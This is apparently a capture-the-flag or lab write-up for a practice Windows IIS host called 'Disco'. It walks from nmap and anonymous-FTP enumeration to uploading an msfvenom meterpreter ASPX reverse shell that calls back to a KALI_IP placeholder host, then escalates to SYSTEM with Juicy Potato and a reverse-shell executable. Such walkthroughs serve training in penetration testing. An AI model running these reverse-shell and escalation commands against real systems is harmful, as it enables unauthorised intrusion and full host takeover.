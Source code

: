 # Disco (10.11.1.13)
****
## Enumeration
1. Enumerate running services using `nmap`
```
nmap -sV -sC -Pn 10.11.1.13
```

2. `nmap` was able to detect several running services, but for this machine, the area of interest is the **FTP** service running on port **21**, and the **HTTP** service running on port **4176**
   

``` 
21/tcp    open  ftp          syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-07-19  10:25PM       <DIR>          aspnet_client
| 04-07-19  07:14PM                99710 iis-85.png
|_04-07-19  07:14PM                  701 iisstart.htm
| ftp-syst: 
|_  SYST: Windows_NT
...
...
4167/tcp  open  http         syn-ack Microsoft IIS httpd 8.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
```

3. Notice that `nmap` was able to detect that FTP anonymous login is enabled. We should be able to confirm this by connecting into the FTP server using the command 
   `ftp anonymous@10.11.1.13`
   
```
$ ftp anonymous@10.11.1.13
Connected to 10.11.1.13.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: [ENTER]
230 User logged in.
Remote system type is Windows_NT.
```   

4. While logged-in, we check our privileges using the command `ls` - to check if we have a read access, and `put test.txt` - to check if we can upload files 

```
ftp> ls
229 Entering Extended Passive Mode (|||49177|)
125 Data connection already open; Transfer starting.
04-07-19  10:25PM       <DIR>          aspnet_client
04-07-19  07:14PM                99710 iis-85.png
04-07-19  07:14PM                  701 iisstart.htm
226 Transfer complete.
ftp> put local-file.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||49178|)
125 Data connection already open; Transfer starting.
100% |*************************|  16  214.04 KiB/s    --:-- ETA
226 Transfer complete.
```

> [!note] 
> Take note of the file `iis-85.png` 

5. Using a browser, navigate to `http://10.11.1.13:4167/` and we should see an **IIS Windows Server** landing page. Checking on the source code, we should see a reference to a file we saw earlier on the FTP server - the file `iis-85.png`.
   ![[iis-85.png]]
   
6. We should be able to confirm if this is indeed where the FTP files are being uploaded by checking the existence of the `test.txt` file we used earlier when testing for write access.   
![[disco-test.png]]

***

## Exploitation

1. Since the target is running an **IIS Windows Server**, we need to use ASPX to establish a reverse shell. We used **MSFVenom** to generate an ASPX shell.   
```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=KALI_IP LPORT=9001 -f aspx > shell.aspx 
```

> [!note] 
> Replace the `KALI_IP` with your Kali's IP address 

2. We spawn a meterpreter listener to catch the shell.
```
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set lhost KALI_IP; set lport 9001; exploit"
```

> [!note] 
> Replace the `KALI_IP` with your Kali's IP address 

3. We upload and initiated the shell using the following commands
   
```
curl -u anonymous: -T shell.aspx ftp://10.11.1.13/shell.aspx && curl http://10.11.1.13:4167/shell.aspx
```

4. After some time, we got a meterpreter session running as 
   `IIS APPPOOL\DefaultAppPool`.

   ![[disco-meterpreter.png]]

***
## Post-exploitation
1. From meterpreter, we checked our current privileges using the command `getprivs`
   ![[disco-http-privs.png]]
   
   We noticed that `SeImpersonate` and `SeAssignPrimaryToken` privileges are enabled, which indicates that it could be vulnerable to a Privilege Escalation attack called [Token Impersonation](https://systemweakness.com/privilege-escalation-using-token-impersonation-windows-5d54404ed488)
   
2. We used an exploit called [Juicy Potato](https://ohpe.it/juicy-potato/), which is a Windows Privilege Escalation tool that abuses the above mentioned privileges. 
   
> [!info] 
> Juicy Potato can be downloaded [here](https://github.com/ohpe/juicy-potato/releases/tag/v0.1).	 

3. We generated an executable payload that we used with Juicy Potato.
   
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=KALI_IP LPORT=9002 -f exe -o reverse.exe
```

4. Using our meterpreter session, we transferred `JuicyPotato.exe` and our executable payload (`reverse.exe`) into the victim.

![[disco-upload-payloads.png]]
5. After setting up the `netcat` listener on our Kali (on port 9002), we fired up the exploit using the following command

```
JuicyPotato.exe -t t -p reverse.exe -l 5831
```

![[disco-fired.png]]
6. We were then able to get a reverse shell running as `nt authority\system`
   
![[disco-nt-system.png]]

![[disco-proof.png]]
